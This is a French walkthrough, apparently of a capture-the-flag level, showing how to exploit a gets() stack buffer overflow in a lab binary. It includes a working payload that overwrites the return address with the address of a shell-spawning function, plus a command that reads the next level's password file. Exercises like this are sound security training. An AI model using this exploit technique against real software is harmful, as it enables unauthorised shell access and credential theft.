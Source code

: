 Avec objdump on observe qu'il y a une fonction run qui execute la fonction system avec  "/bin/bash"

```bash
objdump -d level1 | less
```

On lance GDB et on s'aperçoit qu'il y a un buffer de 64
```gdb
0x08048486 <+6>:     sub    esp,0x50
```

La fonction run n'est jamais appelé mais on peux exploiter un buffer overflow car gets est appelé dans le main

```gdb
0x08048490 <+16>:    call   0x8048340 <gets@plt>
```

On a plus qu'a changer l'adresse de retour de la fonction pour la faire pointé sur l'addresse de run que l'on aura récupéré avec GDB

```bash
python -c "print('B' * 76 + '\x44\x84\x04\x08')" > /tmp/exploit
cat /tmp/exploit - | ./level1
```

On doit ecrire dans un fichier car gets lis les '\x' un a un du coup la mémoire n'est pas rempli comme on le souhaite

```bash
cat /home/user/level2/.pass
```